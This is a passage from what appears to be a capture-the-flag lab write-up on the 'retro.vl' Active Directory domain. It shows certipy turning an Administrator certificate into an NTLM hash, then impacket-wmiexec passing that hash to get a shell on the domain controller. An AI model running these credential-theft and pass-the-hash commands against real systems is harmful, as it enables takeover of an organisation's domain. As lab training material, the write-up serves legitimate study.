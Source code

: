 
\
Boom! We got a certificate of Administrator user. To get a **ntlm** hash of that user we need to use **auth** module of certipy.

```sql
certipy auth -pfx administrator.pfx -domain retro.vl
```

![](image-16.png)

\
Awesome! Now we have a nt hash of domain Administrator, and we can just use psexec or wmiexec to read the flags
```sql
impacket-wmiexec retro.vl/Administrator@dc -hashes :252fac7066d93dd009d4fd2cd0368389
```
![](image-17.png)